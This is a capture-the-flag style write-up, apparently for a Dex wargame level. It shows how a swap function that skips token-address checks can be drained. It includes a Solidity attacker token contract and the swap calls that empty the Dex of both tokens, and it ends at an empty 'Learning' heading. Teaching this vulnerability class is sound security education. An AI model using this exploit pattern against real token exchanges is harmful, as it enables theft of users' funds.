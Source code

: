 We can see that the Dex contracts `swap` function is a bit different - it doesn't
check the addresses of the provided contracts. That means we can swap any token
with any other token. Let's make use of that problem :)

We write our own token contract, which is going to be used to drain the Dex:

Our contract:

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";


contract AttackerTokenr is ERC20 {

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _mint(dexInstance, initialSupply);
    }
}
```

Deploy the contract and set the address of the contract as the Dex instance address.

You will have to approve the dex instance to spend your tokens. You can do that
by calling the `approve` function of your deployed contract. I used Remix,
so that makes it rather easy :)

If we swap 100 from our freshly created tokens against token1, based on the
calculation of the `getSwapAmount` function, we should get 100 tokens of token1
in return. So let's do that :)

```javascript
await contract.swap("<your contract address>", await contract.token1(), 100)
```

Now we have those 100 tokens of the Dex :) 

You have now 2 options to move forward: Either we continue to use our deployed
contract to drain the Dex of token2 tokens, or we deploy it new and perform the
same attack.

I decided to reuse the same contract, and reminted the tokens, so thatI have the
amout of tokens as the Dex has token2 tokens.

Then we do it again:

```javascript
await contract.swap("<your contract address>", await contract.token2(), 100)
```

And you are done :)

### Learning
